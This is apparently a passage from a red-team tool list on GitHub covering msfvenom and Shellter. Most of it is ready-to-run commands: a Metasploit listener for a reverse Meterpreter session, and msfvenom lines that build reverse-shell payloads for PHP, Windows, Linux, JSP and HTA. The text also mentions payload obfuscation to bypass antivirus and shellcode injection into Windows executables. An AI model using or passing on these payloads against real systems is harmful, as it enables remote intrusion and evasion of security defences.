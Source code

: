 ![image](https://user-images.githubusercontent.com/100603074/209867736-5c35cec0-9227-4f18-a439-a5c954342818.png)

### [🔙](#tool-list)[msfvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

Msfvenom allows the creation of payloads for various operating systems in a wide range of formats. It also supports obfuscation of payloads for AV bypass.

**Set Up Listener**

```shell
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port 
run
```

#### Msfvenom Commands

**PHP:** 

```bash
msfvenom -p php/meterpreter/reverse_tcp lhost =192.168.0.9 lport=1234 R
```

**Windows:** 

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
```

**Linux:** 

```bash
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
```

**Java:** 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

**HTA:** 

```bash
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f hta-psh > shell.hta
```

![image](https://user-images.githubusercontent.com/100603074/192070870-2e65fc9f-6534-42e2-af27-9d8b54a82f0b.png)

### [🔙](#tool-list)[Shellter](https://www.shellterproject.com/)

Shellter is a dynamic shellcode injection tool, and the first truly dynamic PE infector ever created.

It can be used in order to inject shellcode into native Windows applications (currently 32-bit applications only).
